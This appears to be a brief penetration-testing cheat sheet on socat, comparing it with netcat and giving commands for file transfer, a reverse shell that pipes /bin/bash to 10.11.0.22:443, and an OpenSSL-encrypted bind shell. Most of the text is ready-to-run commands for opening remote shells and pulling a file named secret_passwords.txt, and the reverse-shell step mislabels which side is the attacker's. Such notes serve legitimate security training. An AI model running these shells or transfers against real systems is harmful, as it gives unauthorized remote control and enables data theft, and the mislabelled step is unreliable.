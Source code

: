 ```yaml
---
title: SOCAT
author: i4
date: M01-09-2023
---
```


## Description
Socat is a command-line utility that establishes two bidirectional byte streams and transfers data between them. For penetration testing, it is similar to Netcat but has additional useful features.

## Difference to nc


.CLIENT

```
$ nc <remote server's ip address> 80
$ socat - TCP4:<remote server's ip address>:80
```

.SERVER

```
$ sudo nc -lvp localhost 443
$ sudo socat TCP4-LISTEN:443 STDOUT
```

## File transfer

```
$ sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt

# Grabbing the file from a client
socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
```


## Reverse Shell

- `-d` increases verbosity

```
socat -d -d TCP4-LISTEN:443 STDOUT
```


On the attacker side:
```
socat TCP4:10.11.0.22:443 EXEC:/bin/bash
```


## Encrypted bind shell

1. Create a new key pair
```
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
```
2. Concat private and public
```
cat bind_shell.key bind_shell.crt > bind_shell.pem
```
3. Run bind shell
```
sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```
4. Connect to listening bind shell
```
socat - OPENSSL:10.11.0.4:443,verify=0
```

